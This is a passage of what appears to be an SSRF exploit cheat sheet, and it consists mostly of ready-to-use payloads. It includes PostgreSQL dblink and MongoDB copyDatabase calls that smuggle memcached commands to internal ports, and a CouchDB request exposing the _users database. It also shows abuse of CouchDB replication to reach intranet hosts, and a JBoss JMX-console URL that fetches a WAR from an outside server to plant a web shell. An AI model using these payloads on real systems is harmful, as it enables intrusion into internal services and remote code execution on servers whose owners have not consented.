 ```
> SELECT dblink_send_query('host=127.0.0.1 dbname=quit user=\'\nstats\n\​' password=1 port=11211 sslmode=disable','select
version();');
```
### MongoDB
> Exploit

```
> db.copyDatabase("\1\2\3\4\5\6\7",'test','localhost:8000')
> nc -l 8000 | hexdump -C
> db.copyDatabase(“\nstats\nquit”,’test’,’localhost:11211’)
```

### CouchDB
> exploit

```
http://localhost:5984/_users/_all_docs
```
```
HTTP/1.1 200 OK
Server: CouchDB/1.2.0 (Erlang OTP/R15B01)
ETag: "BD1WV12007V05JTG4X6YHIHCA"
Date: Tue, 18 Dec 2012 21:39:59 GMT
Content-Type: text/plain; charset=utf-8
Cache-Control: must-revalidate

{"total_rows":1,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-a8cfb993654bcc635f126724d39eb930"}}
]}
```
> Attacker could also send requests from CouchDB server to intranet by using replication [function](http://docs.couchdb.org/en/stable/api/server/common.html#replicate)

```
POST http://couchdb:5984/_replicate
Content-Type: application/json
Accept: application/json

{
    "source" : "recipes",
    "target" : "http://ssrf-me:11211/recipes",
}
```
### Jboss
> Jbosss POC

```
/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://our_public_internet_server/utils/cmd.war
```
> 写入shell
